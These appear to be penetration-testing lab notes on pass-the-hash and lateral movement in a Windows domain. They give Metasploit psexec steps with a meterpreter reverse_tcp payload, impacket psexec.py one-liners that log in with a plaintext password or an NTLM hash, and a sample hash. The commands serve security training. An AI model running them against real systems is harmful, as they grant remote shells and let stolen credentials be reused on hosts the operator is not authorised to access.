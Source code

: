 ### NTLM Hash
`Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::`
`Username:UID:LM:NT`

### Through Metasploit - with a password
- `use exploit/windows/smb/psexec`
- `options`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set RHOSTS 10.0.2.17`
- `set smbdomain MARVEL.local`
- `set smbuser fcastle`
- `setsmbpass Password1`
- `show targets`
- `exploit`
- Meterpreter session:
	- `background`
- `sessions`

### Through Metasploit - with a hash
- `use exploit/windows/smb/psexec`
- `options`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set RHOSTS 10.0.2.17`
- `set smbuser administrator`
- `setsmbpass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f`
- `show targets`
- `exploit`
- Meterpreter session:
	- `background`
- `sessions`
### Through psexec - with a password
- `psexec.py MARVEL.local/fcastle:'Password1'@10.0.2.17`

### Through psexec - with a hash
- `psexec.py administrator@10.0.2.17 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f`

### Alternate tools
We can use any of the `psexec, wmiexec, smbexec` tools, depending on their compatibility with the test environment.